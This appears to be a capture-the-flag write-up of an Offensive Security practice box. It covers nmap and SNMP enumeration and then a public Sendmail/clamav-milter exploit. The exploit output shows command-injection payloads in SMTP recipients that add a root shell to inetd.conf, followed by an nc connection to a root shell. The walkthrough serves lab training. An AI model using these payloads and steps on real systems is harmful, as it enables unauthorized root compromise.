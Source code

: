 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# discovery

Starting with a simple `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -sV 192.168.59.42
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-08 15:56 EST
Nmap scan report for 192.168.59.42
Host is up (0.10s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
25/tcp  open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
80/tcp  open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp open  smux        Linux SNMP multiplexer
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.28 seconds
```

## quick checks
- standard ```ssh``` service on port 22
- `smtp` service on port 25
- website without useful content (no reasonable dirb results) on port 80
- `smb` on port 139/445
- `snmp` protocol on port 199

## checking `snmp` to gather more information about the target
```bash
$ snmp-check 192.168.59.42
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 192.168.59.42:161 using SNMPv1 and community 'public'

[*] System information:
 ...
 3781                  runnable              clamd                 /usr/local/sbin/clamd
  3783                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
...
```
> `ClamAV` is installed and activated on the target
{: .prompt-info }

---

# exploitation
## looking for a `ClamAV` exploit
```bash
$ searchsploit clamav                      
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Clam Anti-Virus ClamAV 0.88.x - UPX Compressed PE File Heap Buffer Overflow                                                                     | linux/dos/28348.txt
ClamAV / UnRAR - .RAR Handling Remote Null Pointer Dereference                                                                                  | linux/remote/30291.txt
ClamAV 0.91.2 - libclamav MEW PE Buffer Overflow                                                                                                | linux/remote/4862.py
ClamAV < 0.102.0 - 'bytecode_vm' Code Execution                                                                                                 | linux/local/47687.py
ClamAV < 0.94.2 - JPEG Parsing Recursive Stack Overflow (PoC)                                                                                   | multiple/dos/7330.c
ClamAV Daemon 0.65 - UUEncoded Message Denial of Service                                                                                        | linux/dos/23667.txt
ClamAV Milter - Blackhole-Mode Remote Code Execution (Metasploit)                                                                               | linux/remote/16924.rb
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Execution (Metasploit)                                                                    | multiple/remote/9913.rb
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution                                                                                 | multiple/remote/4761.pl
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
> `Sendmail with clamav-milter < 0.91.2 - Remote Command Execution` seems to be worth a try (`multiple/remote/4761.pl`).
{: .prompt-info }

## execute the exploit
```bash
$ perl /usr/share/exploitdb/exploits/multiple/remote/4761.pl 192.168.59.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.59.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sat, 8 Jan 2022 20:59:57 -0500; (No UCE/UBE) logging access from: [192.168.49.59](FAIL)-[192.168.49.59]
250-localhost.localdomain Hello [192.168.49.59], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 2091xvno004050 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

If everything worked there should be an additional service on the target now.

## check if the exploit opened a service
```bash
$ nmap -Pn 192.168.59.42                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-08 16:01 EST
Nmap scan report for 192.168.59.42
Host is up (0.11s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
31337/tcp open  Elite
```
> Port `31337` is open now!
{: .prompt-info }

## connect to shell
```bash
$ nc 192.168.59.42 31337
whoami
root
```

> Bam! Root shell.
{: .prompt-info }

---

# post exploitation
```bash
$ nc 192.168.59.42 31337
whoami
root
cd /root
ls
dbootstrap_settings
install-report.template
proof.txt
cat proof.txt
3******************************5
```

Pwned! <@:-) 
